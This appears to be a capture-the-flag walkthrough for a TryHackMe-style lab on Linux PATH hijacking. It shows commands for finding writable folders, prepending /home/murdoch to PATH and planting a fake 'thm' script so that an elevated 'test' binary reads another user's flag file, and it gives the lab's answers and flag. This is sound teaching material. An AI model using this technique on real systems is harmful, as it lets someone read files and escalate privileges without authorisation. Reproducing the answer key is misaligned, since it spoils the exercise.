 #### In Linux, the PATH environment variable defines where the system looks for executables. If a writable folder is included in PATH, an attacker can hijack an application to execute a malicious script.

### Q.1: What is the odd folder you have write access for?

Let’s move on. We are getting quite close now!
To see the folders for which we have write access we can run the following command:

```
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
```
We see a lot of results, but the one that stands out to me is **/home/murdoch**.

### Answer: /home/murdoch

### Q.2: Exploit the $PATH vulnerability to read the content of the flag6.txt file.

Now, to find a vulnerability, let’s have a look at the **/home/murdoch/** folder. In it we find a **test** executable, and a python script **thm.py**, which both try to call an executable called thm.

We know that we have access to the /home/murdoch/ folder, and this folder should now be added to the PATH. Do so by running this command:
```export PATH=/home/murdoch:$PATH```

Now check the path: ```echo $PATH```

These would show this: 
```/home/murdoch:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin```

Now we need to find the path of **flag6.txt**. To find the flag we've to run this command: ```find / -name flag6.txt 2>/dev/null```.
The flag is located at: **/home/matt/flag6.txt**

To read the content of the txt file, we could create a simple cat command to this location: ```echo 'cat /home/matt/flag6.txt' > thm```

Now we have three file at **/home/murdoch/**. These script will make us to read the content of the flag6.txt.

Now, save the file, and try to run the **test** or **thm.py** file. This will fail with a permission denied message. This is because we need to give it executable rights: ```chmod +x thm```

We could run the **test** file at the **/home/murdoch** by running this: ```./test```
This would give the flag 

### Q.3: What is the content of the flag6.txt file?

To read the content of the flag6.txt, run this command: ```./test```
### Answer: THM-736628929
